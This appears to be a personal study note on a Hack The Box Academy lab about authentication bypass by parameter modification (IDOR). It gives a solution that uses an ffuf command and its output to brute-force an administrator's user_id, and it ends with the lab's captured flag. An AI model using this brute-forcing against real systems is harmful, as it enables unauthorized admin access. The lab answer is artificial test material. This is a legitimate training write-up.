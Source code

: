```yaml
---
aliases:
  - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
```

An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such as `Insecure Direct Object Reference (IDOR)` vulnerabilities, which are covered in more detail in the [Web Attacks](https://academy.hackthebox.com/module/details/134) module.

---

## Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the user `htb-stdnt`. After logging in, we are redirected to `/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

   

![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of the `user_id` parameter, let us remove it from our request to `/admin.php`. When doing so, we are redirected back to the login screen at `/index.php`, even though our session provided in the `PHPSESSID` cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameter `user_id` is related to authentication. We can bypass authentication entirely by accessing the URL `/admin.php?user_id=183` directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter name `user_id`, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges, thus revealing the admin information. We can use the techniques discussed in the `Brute-Force Attacks` sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in the `user_id` parameter.

---

## Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module, how different injection vulnerabilities can lead to an authentication bypass is covered in the [Injection Attacks](https://academy.hackthebox.com/module/details/204) and [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) modules, and logic bugs that can lead to an authentication bypass are covered in the [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239) module.

# Question
---
![](Pasted image 20250214182725.png)

Once we've authenticated, we can see the following:

![](Pasted image 20250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/digits.txt
 :: Header           : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

![](Pasted image 20250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```